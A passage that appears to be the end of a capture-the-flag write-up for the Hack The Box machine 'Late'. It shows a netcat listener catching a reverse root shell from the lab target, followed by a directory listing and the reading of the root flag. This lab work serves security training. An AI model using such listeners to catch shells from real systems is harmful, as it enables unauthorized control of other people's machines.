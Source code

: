 ### Root.txt

```
┌──(zweilos㉿kalimaa)-[~/htb/late]
└─$ nc -lvnp 9001                                                                    
listening on [any] 9001 ...
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.156] 48328
bash: cannot set terminal process group (13633): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# cat root.txt
cat root.txt
cat: root.txt: No such file or directory
root@late:/# ls -la
ls -la
total 104
drwxr-xr-x  23 root root  4096 Apr  7 13:51 .
drwxr-xr-x  23 root root  4096 Apr  7 13:51 ..
drwxr-xr-x   2 root root  4096 Apr 18 12:05 bin
drwxr-xr-x   4 root root  4096 Apr  7 12:08 boot
drwxr-xr-x   2 root root  4096 Jan  5  2022 cdrom
drwxr-xr-x  19 root root  3900 Jul 24 08:07 dev
drwxr-xr-x 121 root root 12288 Apr 18 12:05 etc
drwxr-xr-x   3 root root  4096 Jan  5  2022 home
lrwxrwxrwx   1 root root    34 Apr  7 12:08 initrd.img -> boot/initrd.img-4.15.0-175-generic
lrwxrwxrwx   1 root root    34 Apr  7 12:08 initrd.img.old -> boot/initrd.img-4.15.0-175-generic
drwxr-xr-x  21 root root  4096 Apr 18 12:05 lib
drwxr-xr-x   2 root root  4096 Apr  7 13:51 lib64
drwx------   2 root root 16384 Jan  5  2022 lost+found
drwxr-xr-x   2 root root  4096 Aug  6  2020 media
drwxr-xr-x   2 root root  4096 Apr  7 13:51 mnt
drwxr-xr-x   2 root root  4096 Jan 14  2022 opt
dr-xr-xr-x 194 root root     0 Jul 24 08:07 proc
drwx------   7 root root  4096 Apr 18 12:06 root
drwxr-xr-x  29 root root   880 Jul 24 08:08 run
drwxr-xr-x   2 root root 12288 Apr  7 11:33 sbin
drwxr-xr-x   2 root root  4096 Aug  6  2020 srv
dr-xr-xr-x  13 root root     0 Jul 24 15:48 sys
drwxrwxrwt  11 root root  4096 Jul 24 21:01 tmp
drwxr-xr-x  10 root root  4096 Aug  6  2020 usr
drwxr-xr-x  13 root root  4096 Apr  7 13:51 var
lrwxrwxrwx   1 root root    31 Apr  7 12:06 vmlinuz -> boot/vmlinuz-4.15.0-175-generic
lrwxrwxrwx   1 root root    31 Apr  7 12:08 vmlinuz.old -> boot/vmlinuz-4.15.0-175-generic
root@late:/# cd root
cd root
root@late:/root# cat root.txt
cat root.txt
957038a09b2731b25aa2d4f26daf0001
```

Shortly afterwards, I was greeted by a shell on my waiting netcat listener, and was able to collect the root proof.  Job complete!
